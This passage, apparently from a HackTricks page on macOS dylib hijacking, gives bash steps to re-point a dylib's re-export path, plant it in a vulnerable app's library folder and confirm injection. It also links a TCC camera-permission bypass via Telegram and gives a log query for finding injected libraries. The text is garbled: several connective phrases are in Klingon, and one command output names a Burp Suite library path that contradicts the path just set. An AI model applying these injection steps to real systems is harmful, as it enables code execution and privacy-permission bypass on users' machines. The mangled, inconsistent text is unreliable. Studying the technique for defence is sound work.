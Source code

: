 {% code overflow="wrap" %}
```bash
#Check relative
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 48
name @rpath/libjli.dylib (offset 24)

#Change the location of the library absolute to absolute path
install_name_tool -change @rpath/lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" /tmp/lib.dylib

# Check again
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 128
name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```
{% endcode %}

**Qapla'!** jatlhpu' **Hijacked choH**:

{% code overflow="wrap" %}
```bash
cp lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib"
```
{% endcode %}

'ej **execute** the binary 'ej check the **library was loaded**:

<pre class="language-context"><code class="lang-context">"/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>2023-05-15 15:20:36.677 binary[78809:21797902] [+] dylib hijacked in /Applications/VulnDyld.app/Contents/Resources/lib/binary
</strong>Usage: [...]
</code></pre>

{% hint style="info" %}
A nice writeup about how to abuse this vulnerability to abuse the camera permissions of telegram can be found in [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)
{% endhint %}

## Bigger Scale

If you are planing on trying to inject libraries in unexpected binaries you could check the event messages to find out when the library is loaded inside a process (in this case remove the printf and the `/bin/bash` execution).
```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```
<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong></summary></details>
